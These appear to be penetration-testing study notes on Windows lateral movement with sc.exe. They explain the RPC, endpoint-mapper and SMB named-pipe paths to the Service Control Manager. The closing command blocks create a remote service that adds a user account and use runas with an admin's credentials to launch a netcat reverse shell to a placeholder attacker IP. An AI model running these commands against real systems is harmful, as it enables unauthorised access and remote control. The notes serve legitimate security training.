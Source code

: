 #sc #runas
# Sc
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-  Group: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
```mermaid
sequenceDiagram
	participant Client as Client
	participant EPM as End Point Mapper (PORT 135)
	Client->>EPM: Where is SVCCTL?
	EPM->>Client: SVCCTL is at port 40345
```

```mermaid
sequenceDiagram
	participant Client as Client
	participant svc as SVCCTL (PORT 40345)
	Client->>svc: rpcbind to SVCCTL
```
2. If the above process fails, sc with reach SVCCTL via SMB named pipes on port 445 (SMB) or port 135 (SMB over NETBIOS)
```mermaid
sequenceDiagram
	participant Client
	participant SMB
	Client->>SMB: Bind to known pipe \pipe\svcctl [IPC$]
```
```powershell
# Create a service
sc.exe \\<server> create MyService binpath= "net user drdragon Banana79 /add" start= auto

# start the service
sc.exe \\<server> start MyService

# Stop the service
sc.exe \\<server> stop MyService

# Delete the Service
sc.exe \\<server> delete MyService
```
- the `sc.exe` command should be run with `runas.exe /netonly` so that the service is created with the admin's credentials.
```powershell
# Get a reverse shell with leonards's access token.
runas /netonly /user:ZA\admin_leonard.summers "c:\tools\nc64.exe -e cmd.exe <myIP> 4443"

# Can catch with 
nc -nvlp 4443
# now we can schedule tasks with admin's privs
```

